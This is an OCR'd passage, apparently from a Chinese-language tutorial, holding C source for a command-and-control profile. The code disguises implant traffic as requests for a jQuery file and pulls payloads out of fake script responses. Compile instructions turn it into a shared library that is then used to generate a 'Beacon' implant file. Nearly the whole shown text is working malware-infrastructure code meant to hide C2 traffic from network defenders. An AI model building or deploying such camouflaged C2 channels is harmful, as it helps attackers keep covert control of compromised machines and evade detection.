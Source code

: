 ```
    sprintf(postPayload, requestBody, "jquery-3.3.2.min.js", id, strlen(reqData), reqData);

    *outputData_len =  strlen(postPayload);
    *outputData = (char *)calloc(1,  *outputData_len);
    memcpy(*outputData, postPayload, *outputData_len);
    free(postPayload);
}

char *find_payload(char *rawData, long long rawData_len, char *start, char *end, long long *payload_len) {

    rawData = strstr(rawData, start) + strlen(start);

    *payload_len = strlen(rawData) - strlen(strstr(rawData, end));

    char *payload = (char *)calloc(*payload_len ,sizeof(char));
    memcpy(payload, rawData, *payload_len);
    return payload;
}

void cc2_rebind_http_get_recv(char *rawData, long long rawData_len, char **outputData, long long *outputData_len) {
    char *start = "return-1},P=\"\r";
    char *end = "\".(o=t.documentElement";

    long long payload_len = 0;
    *outputData = find_payload(rawData, rawData_len, start, end, &payload_len);
    *outputData_len = payload_len;
}

void cc2_rebind_http_post_recv(char *rawData, long long rawData_len, char **outputData, long long *outputData_len) {
    char *start = "return-1},P=\"\r";
    char *end = "\".(o=t.documentElement";

    long long payload_len = 0;
    *outputData = find_payload(rawData, rawData_len, start, end, &payload_len);
    *outputData_len = payload_len;
}


```

将`c2profile.c`文件编译成`.so`文件

```
gcc c2profile.c -fPIC -shared -o lib_rebind_test.so


```

指定. so 文件生成 Beacon 文件
